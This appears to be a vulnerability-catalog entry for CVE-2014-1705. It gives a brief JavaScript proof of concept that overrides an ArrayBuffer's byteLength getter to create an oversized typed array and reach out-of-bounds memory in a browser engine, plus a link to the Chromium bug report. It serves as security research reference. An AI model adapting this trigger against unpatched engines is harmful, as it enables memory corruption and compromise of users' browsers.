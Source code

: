 checked this in chakra

# CVE-2014-1705

- Date: Mar 2014
- Credit: geohot

## PoC

```javascript
var ab = new ArrayBuffer(8);
ab.__defineGetter__("byteLength", function() { return 0xFFFFFFFC; });
var aaa = new Uint32Array(ab);
// aaa[0x1234567] = 1;
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=351787)

